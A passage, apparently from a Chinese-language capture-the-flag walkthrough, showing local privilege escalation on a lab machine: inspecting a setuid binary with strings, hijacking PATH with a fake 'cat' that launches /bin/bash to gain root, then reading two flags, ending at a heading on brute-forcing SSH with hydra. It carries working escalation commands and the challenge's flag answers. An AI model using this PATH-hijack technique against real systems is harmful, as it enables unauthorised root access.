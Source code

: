   ```bash
  $ strings /opt/get_access
  setuid
  socket
  puts
  system
  __cxa_finalize
  setgid
  __libc_start_main
  libc.so.6
  GLIBC_2.2.5
  _ITM_deregisterTMCloneTable
  __gmon_start__
  _ITM_registerTMCloneTable
  u/UH
  []A\A]A^A_
  cat /root/system.info
  ```

- 更改环境变量
  
  ```bash
  cd /tmp
  echo '/bin/bash' > cat
  chmod +x cat
  export PATH=/tmp:$PATH
  ```

- 运行程序，得到`root`身份，提权成功
  
  ```bash
  $ /opt/get_access
  id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)
  ```

## 阶段五：获取FLAG

- `FLAG1`位于`/home/travis/user.txt`。由于`cat`已经被替换，改用`less`读取文件。
  
  ```bash
  less user.txt
  ICA{Secret_Project}
  ```

- `FLAG2`位于`/root/root.txt`
  
  ```bash
  less root.txt
  ICA{Next_Generation_Self_Renewable_Genetics}
  ```

- 至此，任务完成

---

## <p id="支线一">支线一：使用 hydra 枚举组合爆破 SSH</p>
